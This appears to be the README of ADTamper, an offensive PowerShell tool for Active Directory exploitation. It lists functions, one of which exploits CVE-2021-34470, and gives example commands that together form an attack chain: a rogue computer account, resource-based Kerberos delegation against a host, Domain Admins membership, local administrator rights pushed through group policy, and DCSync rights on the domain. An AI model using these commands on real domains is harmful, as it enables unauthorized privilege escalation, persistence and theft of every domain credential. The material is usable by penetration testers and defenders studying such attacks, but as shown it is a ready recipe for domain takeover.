 # ADTamper

ADTamper is a PowerShell tool for Active Directory exploitation.

## Functions

```
New-UserAccount                 -   creates a new user account in a given Active Directory domain
New-ComputerAccount             -   creates a new computer account in a given Active Directory domain
New-RogueAccount                -   creates a new Active Directory account (user or computer) by exploiting CVE-2021-34470
New-DomainDnsRecord             -   creates a new DNS record in a given Active Directory domain
New-GPImmediateTask             -   creates an immediate scheduled task to push out through a given Active Directory group policy
Add-GPGroupMember               -   adds a domain account to a local group through a given Active Directory group policy
Add-GPUserRightsAssignment      -   adds user rights to a domain account through a given Active Directory group policy
Set-UserPassword                -   modifies the password of a given Active Directory account
Set-KerberosDelegation          -   adds or removes a Kerberos delegation for a given Active Directory account
Set-LdapObject                  -   modifies properties for a given Active Directory object (e.g. members of a group)
Set-LdapObjectOwner             -   modifies the owner for a given Active Directory object
Set-LdapObjectAcl               -   adds or removes an ACL for a given Active Directory object
Remove-LdapObject               -   removes a given Active Directory object
```

## Examples

* Create a domain computer account:

```
New-ComputerAccount -SamAccountName 'testcomputer$' -Password 'P@ssw0rd'
```

* Reset the password of a domain account:

```
Set-UserPassword -SamAccountName 'testcomputer$' -NewPassword 'Str0ngP@ssw0rd' -Reset
```

* Add a DNS record to an Active Directory-Integrated DNS (ADIDNS) zone:

```
New-DomainDnsRecord -RecordType A -Name 'testcomputer' -ZoneName 'adatum.corp' -Data '192.168.1.200'
```

* Configure a Kerberos Resource-Based Delegation for a domain account that is going to be allowed to delegate authentication on an targeted system:

```
Set-KerberosDelegation -SamAccountName 'testcomputer$' -RBCD -TargetDN 'CN=WS10,CN=Computers,DC=ADATUM,DC=CORP' -Operation Add
```

* Add a domain account to an existing domain group:

```
Set-LdapObject -DistinguishedName 'CN=Domain Admins,CN=Users,DC=ADATUM,DC=CORP' -Properties @{member='CN=testcomputer,CN=Computers,DC=ADATUM,DC=CORP'} -Operation Add
```

* Add a domain account to the Administrators local group of domain computers:

```
$id = (Get-LdapObject -Filter "(&(objectCategory=groupPolicyContainer)(DisplayName=Default Domain Policy))" -Properties cn).cn
Add-GPGroupMember -PolicyId $id -BuiltinGroup Administrators -Member 'testcomputer$'
```

* Assign 'DCSync' extended rights to a domain account:

```
$sid = (New-Object Security.Principal.SecurityIdentifier (Get-LdapObject -Filter '(sAMAccountName=testcomputer$)').objectSid,0).Value
Set-LdapObjectAcl -DistinguishedName "DC=ADATUM,DC=CORP" -PrincipalSID $sid -Rights DCSync -Operation Add
```

* Delete a domain account:

```
Remove-LdapObject -DistinguishedName 'CN=testcomputer,CN=Computers,DC=ADATUM,DC=CORP'
```
